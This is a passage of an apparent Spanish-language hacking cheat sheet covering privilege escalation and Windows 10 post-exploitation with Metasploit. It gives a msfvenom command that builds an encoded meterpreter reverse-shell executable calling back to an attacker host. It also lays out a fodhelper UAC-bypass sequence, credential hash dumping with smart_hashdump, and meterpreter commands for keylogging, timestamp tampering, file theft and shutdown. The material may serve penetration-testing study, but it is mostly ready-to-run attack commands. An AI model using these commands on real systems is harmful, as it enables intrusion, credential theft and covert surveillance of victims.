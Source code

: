 text

---

## ⬆️ 5. Escalación de Privilegios

### **Payload con encoding:**
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86
-e x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe

text

### **Bypass UAC:**
En meterpreter:
getuid
run post/windows/gather/smart_hashdump # Fallará sin privilegios
getsystem -t 1 # Fallará también

background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
set TARGET 0
exploit

Nueva sesión con privilegios elevados:
getuid
getsystem
run post/windows/gather/smart_hashdump # Ahora funcionará

text

---

## 🖥️ 6. Hacking Windows 10 - Post-Explotación

### **Comandos Meterpreter útiles:**
sysinfo
ipconfig
getuid
pwd
ls
timestomp secret.txt -v # Ver atributos MACE
cd C:
download bootmgr
search -f pagefile.sys
keyscan_start
keyscan_dump
idletime
shutdown
**Descargar archivo desde FTP:**
```bash
get archivo.txt
```
_Ejemplo output:_
```
200 PORT command successful
150 Opening ASCII mode data connection for archivo.txt
226 Transfer complete
```

---